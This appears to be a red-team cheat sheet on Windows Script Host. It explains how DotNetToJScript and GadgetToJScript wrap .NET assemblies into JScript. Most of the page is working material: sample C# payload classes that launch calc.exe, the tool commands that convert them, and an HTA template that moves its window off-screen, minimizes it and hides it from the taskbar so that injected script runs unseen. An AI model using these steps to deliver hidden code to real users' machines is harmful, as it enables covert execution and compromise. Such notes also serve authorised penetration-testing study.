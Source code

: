 # ⭕ JScript

## <mark style="color:red;">WSH</mark>

VBScript and Jscript are executed by the windows script host. they run by the windows scripting host (WSH). they run as a console application (cscript.exe) or a GUI app (wscript.exe). the engines are not implemented in wscript.exe or cscript.exe. but in vbscript.dll and jscript.dll. these are both activeX DLLs which contain activeX objects.

## <mark style="color:red;">DotNetToJScript</mark>

#### References

* [Github repo](https://github.com/tyranid/DotNetToJScript)
* [WhiteOakSecurity](https://www.whiteoaksecurity.com/blog/2020-1-16-advanced-ttps-dotnettojscript-part-1/)

Execute DotNetToJscript.exe and supply it with the ExampleAssembly.dll, specify the output file and the output type:

```
#Sample DLL
#csc.exe /target:library thisfile.cs -o sample.dll

using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace Prog
{
public class Popme
{
  public void Box()
  {
    Process.Start("calc.exe");
    System.Windows.Forms.MessageBox.Show("Hello");
  }
}
}
```

#### Compile

```
#Test
DotNetToJScript.exe  -l JScript -o test.js -c <namespace. eg: Popme> sample.dll
Wscript.exe test.js

#For HTA
DotNetToJScript.exe  -l JScript -o output.txt -c <Classname. eg: Popme> sample.dll
#Append : o.<Method Name>();
```

#### Create HTA

```
<html>
<head>
<script language="JScript">
window.moveTo(-1337, -2019);
window.blur();
window.resizeTo(2, 4);

<!!! Add Script Here !!!>
</script>
<hta:application caption="no" windowState="minimize" showInTaskBar="no"
                 scroll="no" navigable="no" />
                 <!--  -->
</head>
<body>
</body>
</html>
```

## <mark style="color:red;">GadgetToJScript</mark>

* [Github Repo](https://githubmemory.com/repo/rasta-mouse/GadgetToJScript)

```
#Create a constructor. Save as source.cs

using System;
using System.Diagnostics;

public class Same
 { 
  public Same()
   {
    Process.Start("calc.exe");
   }
 }
```

```
GadgetToJScript.exe -i source.cs -w js -r <Reference assembly> -o out.txt -f
```
